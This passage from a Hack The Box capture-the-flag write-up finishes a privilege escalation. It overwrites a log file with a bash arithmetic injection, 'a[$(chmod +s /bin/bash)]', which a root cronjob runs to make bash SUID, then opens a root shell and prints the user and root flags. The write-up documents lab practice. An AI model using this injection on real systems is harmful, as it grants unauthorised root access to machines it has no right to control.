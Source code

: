 Let's delete the `application.log` and replace it with:

```
HTTP Status: a[$(chmod +s /bin/bash)]
```



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619171046.png)


Now, wait until the cronjob is triggered again and we will be able to get a root shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619171149.png)

Nice, let's read both flags:


```
bash-5.0# cat /home/miranda-wise/user.txt
13eebeb1d6d8397b9cd8365a768dabb8

bash-5.0# cat /root/root.txt
ebf28efc01adf54e57bf6ee09d451ba6
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619171340.png)


https://www.hackthebox.com/achievement/machine/1872557/658


